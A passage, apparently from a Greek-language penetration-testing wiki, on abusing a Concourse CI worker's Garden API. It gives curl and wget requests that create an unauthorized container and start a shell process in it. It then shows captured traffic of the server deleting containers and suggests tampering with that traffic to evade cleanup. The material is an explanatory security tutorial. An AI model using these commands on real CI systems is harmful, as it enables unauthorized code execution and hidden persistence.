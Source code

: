 Μπορείτε πολύ εύκολα να δημιουργήσετε ένα νέο κοντέινερ (απλώς εκτελέστε ένα τυχαίο UID) και να εκτελέσετε κάτι σε αυτό:
```bash
curl -X POST http://127.0.0.1:7777/containers \
-H 'Content-Type: application/json' \
-d '{"handle":"123ae8fc-47ed-4eab-6b2e-123458880690","rootfs":"raw:///concourse-work-dir/volumes/live/ec172ffd-31b8-419c-4ab6-89504de17196/volume","image":{},"bind_mounts":[{"src_path":"/concourse-work-dir/volumes/live/9f367605-c9f0-405b-7756-9c113eba11f1/volume","dst_path":"/scratch","mode":1}],"properties":{"user":""},"env":["BUILD_ID=28","BUILD_NAME=24","BUILD_TEAM_ID=1","BUILD_TEAM_NAME=main","ATC_EXTERNAL_URL=http://127.0.0.1:8080"],"limits":{"bandwidth_limits":{},"cpu_limits":{},"disk_limits":{},"memory_limits":{},"pid_limits":{}}}'

# Wget will be stucked there as long as the process is being executed
wget -v -O- --post-data='{"id":"task2","path":"sh","args":["-cx","sleep 20000"],"dir":"/tmp/build/e55deab7","rlimits":{},"tty":{"window_size":{"columns":500,"rows":500}},"image":{}}' \
--header='Content-Type:application/json' \
'http://127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/processes'
```
Ωστόσο, ο διακομιστής ιστού ελέγχει κάθε λίγα δευτερόλεπτα τα κοντέινερ που εκτελούνται, και αν ανακαλυφθεί κάποιο απροσδόκητο, θα διαγραφεί. Καθώς η επικοινωνία πραγματοποιείται μέσω HTTP, θα μπορούσατε να παραποιήσετε την επικοινωνία για να αποφύγετε τη διαγραφή απροσδόκητων κοντέινερ:
```
GET /containers HTTP/1.1.
Host: 127.0.0.1:7777.
User-Agent: Go-http-client/1.1.
Accept-Encoding: gzip.
.

T 127.0.0.1:7777 -> 127.0.0.1:59722 [AP] #157
HTTP/1.1 200 OK.
Content-Type: application/json.
Date: Thu, 17 Mar 2022 22:42:55 GMT.
Content-Length: 131.
.
{"Handles":["123ae8fc-47ed-4eab-6b2e-123458880690","ac793559-7f53-4efc-6591-0171a0391e53","c6cae8fc-47ed-4eab-6b2e-f3bbe8880690"]}

T 127.0.0.1:59722 -> 127.0.0.1:7777 [AP] #159
DELETE /containers/123ae8fc-47ed-4eab-6b2e-123458880690 HTTP/1.1.
Host: 127.0.0.1:7777.
User-Agent: Go-http-client/1.1.
Accept-Encoding: gzip.
```
## Αναφορές

* https://concourse-ci.org/vars.html

{% hint style="success" %}